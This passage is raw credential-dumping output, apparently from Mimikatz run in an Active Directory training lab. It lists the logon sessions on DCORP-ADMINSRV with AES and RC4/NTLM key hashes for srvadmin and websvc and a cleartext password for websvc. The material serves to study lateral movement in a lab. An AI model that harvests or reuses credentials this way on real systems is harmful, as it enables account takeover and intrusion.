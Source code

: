 ```powershell
           rc4_hmac_old_exp  cc098f204c5887eaa8253e7c2749156f

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : DCORP-ADMINSRV$
Domain            : dcorp
Logon Server      : (null)
Logon Time        : 1/10/2025 9:28:35 AM
SID               : S-1-5-20
Authentication Id : 0 ; 11523662 (00000000:00afd64e)
Session           : NewCredentials from 0
User Name         : student867
Domain            : dcorp
Logon Server      : (null)
Logon Time        : 5/9/2025 2:00:54 PM
SID               : S-1-5-21-719815819-3726368948-3917688648-20607

         * Username : srvadmin
         * Domain   : dcorp
         * Password : (null)
         * Key List :
           aes256_hmac       01e519027474feb980e17dadb7230f81ccc3114a49f964732e0c225f91de91a6
           aes128_hmac       1078167b969a70401927d9fb1faf4e10
           rc4_hmac_nt       31d6cfe0d16ae931b73c59d7e0c089c0
           rc4_hmac_old      31d6cfe0d16ae931b73c59d7e0c089c0
           rc4_md4           31d6cfe0d16ae931b73c59d7e0c089c0
           rc4_hmac_nt_exp   31d6cfe0d16ae931b73c59d7e0c089c0
           rc4_hmac_old_exp  31d6cfe0d16ae931b73c59d7e0c089c0

Authentication Id : 0 ; 5853380 (00000000:005950c4)
Session           : RemoteInteractive from 2
User Name         : srvadmin
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 1/11/2025 4:22:58 AM
SID               : S-1-5-21-719815819-3726368948-3917688648-1115

         * Username : srvadmin
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       145019659e1da3fb150ed94d510eb770276cfbd0cbd834a4ac331f2effe1dbb4
           rc4_hmac_nt       a98e18228819e8eec3dfa33cb68b0728
           rc4_hmac_old      a98e18228819e8eec3dfa33cb68b0728
           rc4_md4           a98e18228819e8eec3dfa33cb68b0728
           rc4_hmac_nt_exp   a98e18228819e8eec3dfa33cb68b0728
           rc4_hmac_old_exp  a98e18228819e8eec3dfa33cb68b0728

Authentication Id : 0 ; 138873 (00000000:00021e79)
Session           : Service from 0
User Name         : websvc
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 1/10/2025 9:28:48 AM
SID               : S-1-5-21-719815819-3726368948-3917688648-1114

         * Username : websvc
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : AServicewhichIsNotM3@nttoBe
         * Key List :
           aes256_hmac       2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7
           aes128_hmac       86a353c1ea16a87c39e2996253211e41
           rc4_hmac_nt       cc098f204c5887eaa8253e7c2749156f
```